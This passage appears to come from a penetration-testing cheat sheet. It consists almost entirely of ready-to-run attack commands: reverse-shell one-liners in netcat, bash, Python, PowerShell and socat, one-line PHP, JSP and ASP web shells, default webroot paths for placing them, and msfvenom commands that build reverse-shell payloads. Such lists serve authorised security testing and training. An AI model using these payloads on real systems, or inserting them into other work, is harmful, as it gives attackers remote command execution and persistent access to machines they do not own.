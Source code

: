 - Reverse Shells

```
$ nc -nv <IP address> <port> -e /bin/bash
$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP address> <port> >/tmp/f
$ bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
$ python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
$ powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('<IP address>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1
$ socat file:`tty`,raw,echo=0 tcp-listen:4444
$ socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<IP address>:4444
msf> use exploit/multi/handler
```

- Web Shells

```
PHP: <?php system($_REQUEST["cmd"]); ?>
JSP: <% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
ASP: <% eval request("cmd") %>
```

- Default Webroot Locations

```
Apache: /var/www/html/
Nginx: /usr/local/nginx/html/
IIS: c:\inetpub\wwwroot\
XAMPP: C:\xampp\htdocs\
```

- MSFvenom

```
http://pentestmonkey.net/tools/web-shells/php-reverse-shell
Edit IP address and port

$ msfvenom -p php/reverse_php LHOST=<IP address> LPORT=<Port> -f raw > shell.php
$ msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP address> LPORT=<Port> -f raw > shell.php
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP address> LPORT=<Port> -f asp > shell.asp
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP address> LPORT=<Port> -f aspx > shell.aspx
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP Address> LPORT=<Port> -f raw > shell.jsp
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP Address> LPORT=<Port> -f war > shell.war
$ msfvenom -p windows/shell_reverse_tcp LHOST=<IP Address> LPORT=<Port> -f exe -o shell.exe
```

#10. - Online Resources
-----------------------------------------

- Speedguide
